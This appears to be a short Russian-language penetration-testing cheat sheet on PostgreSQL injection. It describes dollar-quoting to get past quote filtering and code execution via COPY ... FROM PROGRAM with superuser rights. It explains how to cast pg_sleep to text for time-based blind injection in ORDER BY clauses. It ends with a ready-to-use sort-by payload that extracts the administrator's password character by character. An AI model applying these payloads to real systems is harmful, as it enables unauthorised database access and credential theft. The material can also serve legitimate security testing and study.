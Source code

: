# postgres

Выведет quer, потому что $\[somestring]$ - это вроде кавычки

```
SELECT $test$quer$test$
```

### Code Execution

Если есть права суперпользователя в базе, то можно исполнять код с помощью функций СУБД: `COPY TO` и `FROM PROGRAM`.

## Time Based SQLi and VOID-type

Есть одна маленькая проблема с эксплуатацией Time-Based SQLi. Функция pg\_sleep возвращает VOID, а этот тип не применим в некоторых запросах, например, в Order By:

```sql
SELECT * 
FROM pg_user 
ORDER BY "usename",
  (
    SELECT 
      CASE 
        WHEN COUNT((SELECT usename FROM pg_user))<>1 
        THEN pg_sleep(10) 
        ELSE '' 
      END
  );
```

этот запрос вернет ошибку:

```
could not identify an ordering operator for type void
```

Чтобы использовать pg\_sleep в order by запросах, надо конвертнуть результат в text:

```sql
SELECT * 
FROM pg_user 
ORDER BY "usename",
  (
    SELECT 
      CASE 
        WHEN COUNT((SELECT usename FROM pg_user))<>1 
        THEN pg_sleep(10) 
        ELSE '' 
      END
  )::text;
```

### ORDER BY injection

URL: [https://example.com/filtered\_search?SearchTerm=test\&sort-by=AUTHOR\&writer=](https://example.com/filtered\_search?SearchTerm=test\&sort-by=AUTHOR\&writer=)

Payload для sort-by:

```
AUTHOR, (CASE WHEN (SELECT '1'='1' FROM users WHERE username = 'administrator' AND password LIKE 'j%') THEN pg_sleep(10)::text ELSE AUTHOR END)
```
